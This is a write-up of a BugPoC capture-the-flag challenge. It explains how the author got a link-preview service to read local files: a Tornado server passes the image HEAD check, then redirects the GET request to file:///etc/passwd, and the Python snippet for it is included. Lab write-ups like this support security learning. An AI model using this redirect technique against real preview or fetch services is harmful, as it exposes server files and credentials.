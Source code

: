 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing Twitter I saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image instructed me to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was a server-sided bug, I got energized to solve it. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in StackOverflow answer. Then for url, I used input prompt on while loop. This is what a successful response looks like, and it also returns an image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used the JSON module to parse the data then the content of the image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, I tried different kinds of stuff, ideas such as SSRF but it wasn't working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasn't vulnerable I looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time revealed something that I missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows a web page to become a rich object in the social graph. It had a lot of tags and some tags that were being reflected were `og: description`, `og: type`, `og: image`, and `og.url`. Also, description, type, and url didn't have much effect on the server. However, the image was again fetching resources and used urllib3. Trying for SSRF again failed me and SSRF wasn't a solution to the challenge so I moved on.

Looking at a different perspective, I found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)`
* Serving another file with extensions fails a HEAD request, parser checks by mimetype which can be bypassed
* Serving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting HTML, PHP, and other code in the jpeg mimetype file but it didn't work. I also tried using Exif tags for code execution which didn't work too. I was quite lost at these moments and those weird hints from BugPoC made me madder.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, let's host the malicious server, and get that file. Also, I rechanged a lot of my exploit.py code and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

## Takeaway 

* Always try harder, if I left when I failed SSRF, I couldn't have solved the challenge 
* Javascript files are a gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but the last ones were absurd and meaningless. Also, I necessarily didnt have to code server and client. For the server, I could have used BugPoC mock endpoint and for a client, I could have used either burp or browser thought for testing purposes, the client is best!

